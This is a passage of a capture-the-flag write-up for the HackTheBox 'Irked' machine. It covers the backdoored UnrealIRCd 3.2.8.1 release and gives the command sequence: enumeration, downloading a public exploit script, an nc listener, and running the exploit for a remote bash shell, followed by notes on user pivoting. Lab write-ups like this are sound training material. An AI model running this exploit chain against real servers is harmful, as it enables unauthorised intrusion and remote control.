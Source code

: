 > **[UnrealIRCd](https://www.unrealircd.org/){:target="_blank"}** is a highly advanced **IRCd** with a strong focus on modularity and security. It uses an advanced and highly configurable configuration file. Other key features include: full **IRCv3** support, **SSL/TLS**, **cloaking**, **advanced anti-flood** and **anti-spam** systems, **GeoIP**, remote includes, and lots of other features.

> **UnrealIRCd 3.2.8.1**, as distributed on certain mirror sites from November 2009 through June 2010, contains an externally introduced modification (**[Trojan Horse](https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2010-2075){:target="_blank"}**) in the **DEBUG3_DOLOG_SYSTEM** macro, which allows remote attackers to execute arbitrary commands.

```bash
rpcinfo irked.htb
nmap -sSUC -p111 10.10.10.117

cat targeted | grep UnrealIRCd

searchsploit UnrealIRCd

wget https://raw.githubusercontent.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/refs/heads/master/exploit.py
mv exploit.py UnrealIRCd_exploit.py
python3 UnrealIRCd_exploit.py -h

nvim UnrealIRCd_exploit.py
cat UnrealIRCd_exploit.py | grep -E 'local_ip =|local_port ='
# :) All OK!

nc -nlvp 443
python3 UnrealIRCd_exploit.py -payload bash 10.10.10.117 6697

whoami
hostname
hostname -I
```

<br />
<img src="{{ site.img_path }}/irked_writeup/Irked_06.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/irked_writeup/Irked_07.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/irked_writeup/Irked_08.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/irked_writeup/Irked_09.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/irked_writeup/Irked_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/irked_writeup/Irked_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

In order to have a better mobility I'm going to make a **Console treatment**, so that the proportions are correct and I can use some shortcuts. Although I'm already in the system I still can not see the content of the first flag, maybe it is a sign that I must perform a **User pivoting**. With the first basic commands of enumeration of the system I check that the codename was indeed **Jessie**, I do not find **cron jobs** and I cannot know if I have special permissions, but I find a hidden file (**.backup**) that stores a password, that perhaps serves for some challenge of **Steganography** since it does not correspond to the user of the system, **djmardov**.

